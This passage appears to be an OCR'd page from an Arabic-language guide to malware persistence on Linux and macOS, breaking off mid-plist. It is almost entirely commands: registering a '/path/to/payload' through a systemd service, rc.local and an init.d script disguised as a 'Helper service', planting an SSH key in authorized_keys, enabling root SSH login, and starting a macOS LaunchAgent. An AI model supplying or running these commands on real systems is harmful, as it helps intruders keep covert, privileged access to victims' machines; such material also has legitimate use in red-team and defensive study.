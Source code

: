 # تفعيل الخدمة
systemctl enable helper.service
systemctl start helper.service
3. ملفات rc.local و init.d
bash# استخدام rc.local (لم يعد مدعومًا في بعض التوزيعات)
echo "/path/to/payload &" >> /etc/rc.local
chmod +x /etc/rc.local

# إنشاء سكربت init.d
cat > /etc/init.d/helper << EOF
#!/bin/sh
### BEGIN INIT INFO
# Provides:          helper
# Required-Start:    $remote_fs $syslog
# Required-Stop:     $remote_fs $syslog
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Helper service
### END INIT INFO

case "$1" in
  start)
    /path/to/payload &
    ;;
  stop|restart|reload)
    ;;
esac
exit 0
EOF

chmod +x /etc/init.d/helper
update-rc.d helper defaults
4. سرقة SSH Keys وتعديل ملفات التكوين
bash# إضافة مفتاح SSH عام للوصول
mkdir -p ~/.ssh
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# تكوين SSH للسماح بتسجيل الدخول بالمفتاح
echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
طرق الاستمرارية على أنظمة macOS
bash# إنشاء ملف plist للتشغيل التلقائي
cat > ~/Library/LaunchAgents/com.helper.plist << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>Label</key>